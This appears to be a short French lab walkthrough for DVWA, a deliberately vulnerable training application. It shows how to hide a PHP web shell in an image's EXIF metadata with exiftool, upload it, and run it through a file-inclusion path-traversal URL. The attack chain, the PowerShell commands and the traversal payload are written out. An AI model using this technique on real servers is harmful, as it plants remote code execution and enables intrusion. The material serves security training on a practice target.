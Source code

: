 # Exploitation de la Faille File Inclusion avec DVWA


# Mode difficulté : élevée (high)

## Objectif

Inclure du code malveillant dans une image.

## Mode opératoire

- Récupérez l'utilitaire exiftool ici : https://exiftool.org/
- Récupérez le code de la console web (shell.php) dans /template/remote-exec/shell.php
- Récupérez une image de petite taille, par exemple : https://image.pi7.org/static/img/pi750kbjpeg.png
- A l'aide de Powershell, exécutez le code suivant :

```powershell
$document = Get-Content "cheminverslefichierShell.php"
exiftool.exe -DocumentName="$document" "chemin_vers_image.jpg"
```

- Téléchargez l'image à l'aide de la page de chargement de DVWA (/DVWA/vulnerabilities/upload)
- Testez l'exécution de l'image à l'aide de la faille "File Inclusion" : DVWA/vulnerabilities/fi/?page=file1.php%0A/../../../hackable/uploads/votreimage.jpg
